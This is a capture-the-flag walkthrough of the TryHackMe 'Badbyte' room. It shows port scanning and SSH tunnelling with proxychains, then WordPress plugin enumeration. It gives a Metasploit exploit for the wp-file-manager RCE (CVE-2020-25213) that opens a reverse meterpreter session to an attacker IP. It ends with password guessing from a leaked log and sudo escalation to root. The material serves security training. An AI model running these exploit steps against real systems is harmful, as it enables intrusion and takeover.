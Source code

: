 ```yaml
---
description: SSH Portforwarding
---
```


# 22 - Badbyte

Room Link --> [https://tryhackme.com/room/badbyte](https://tryhackme.com/room/badbyte)

### Enumeration

#### nmap

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nmap -sV 10.10.143.30 -T4 -Pn -n -p- -vv --min-rate 10000

# outputs
PORT      STATE    SERVICE REASON      VERSION
22/tcp    filtered ssh     no-response
30024/tcp open     ftp     syn-ack     vsftpd 3.0.3
Service Info: OS: Unix
```
{% endcode %}

To complete this task:

1. Setup Dynamic Port Forwarding using SSH.\
   HINT:`-i id_rsa -D 1337`
2. Set up proxychains for the Dynamic Port Forwarding. Ensure you have commented out `socks4 127.0.0.1 9050` in your proxychains configuration and add `socks5 127.0.0.1 1337` to the end of configuration file (`/etc/proxychains.conf`).

<figure><img src=".gitbook/assets/image (177).png" alt=""><figcaption></figcaption></figure>

#### Setup SSH Dynamic Portforward

`ssh -D 1337 -i id_rsa errorcauser@10.10.143.30 -fN` .

<figure><img src=".gitbook/assets/image (178).png" alt=""><figcaption></figcaption></figure>

#### Enumerate internal ports using proxychains

`proxychains4 nmap -sT 127.0.0.1` .

<figure><img src=".gitbook/assets/image (179).png" alt=""><figcaption></figcaption></figure>

Some ports are open on the remote machine ie \[80, 22, 3306].

#### Setup SSH Local Portforwarding to the remote port 80

`ssh -L 8000:127.0.0.1:80 -i id_rsa errorcauser@10.10.143.30 -fN` .

We can navigate to `127.0.0.1:8000` in webbrowser to access the page alternatively.

<figure><img src=".gitbook/assets/image (184).png" alt=""><figcaption></figcaption></figure>

### Web Exploitation

`proxychains4 nmap -sT 127.0.0.1 -p80 -A -T4`\`

<figure><img src=".gitbook/assets/image (181).png" alt=""><figcaption></figcaption></figure>

To access the web server, we configure foxy proxy on firefox.

<figure><img src=".gitbook/assets/image (182).png" alt=""><figcaption></figcaption></figure>

Then we navigate to: `127.0.0.1:80` .

<figure><img src=".gitbook/assets/image (183).png" alt=""><figcaption></figcaption></figure>

#### Enumerate vulnerable plugins

enumerating wordpress plugins with nmap.

`nmap 127.0.0.1 -p8000 --script http-wordpress-enum --script-args type="plugins",search-limit=1500 -vv` .

<figure><img src=".gitbook/assets/image (185).png" alt=""><figcaption></figcaption></figure>

Google "**duplicator 1.3.26 exploit**" and found the "CVE-2020-11738"  dir traversal vulnerability.

Google "**wp-file-manager 6.0 exploit**" and found the "CVE-2020-25213" RCE vulnerability.

### Initial Access

Using metasploit :), you can use any Github POC out there too :)

{% code overflow="wrap" lineNumbers="true" %}
```bash
use exploit/multi/http/wp_file_manager_rce
set RHOSTS 127.0.0.1
set RPORT 8000
set LHOST 10.18.88.214
run

# and got  meterpreter session.
```
{% endcode %}

<figure><img src=".gitbook/assets/image (186).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

IN the home dir, there is a ".vininfo" file, cat the file and it mentions "/var/log/bash.log"

then i view the details of the file and found the user old password `G00dP@$sw0rd2020` .

We have to guess the new password and login via ssh, so i tried `G00dP@$sw0rd2021` and it worked.

<figure><img src=".gitbook/assets/image (187).png" alt=""><figcaption></figcaption></figure>

And am in :)

I checked `sudo -l` and we can run all cmds, so `sudo su` and we are root.

Done.

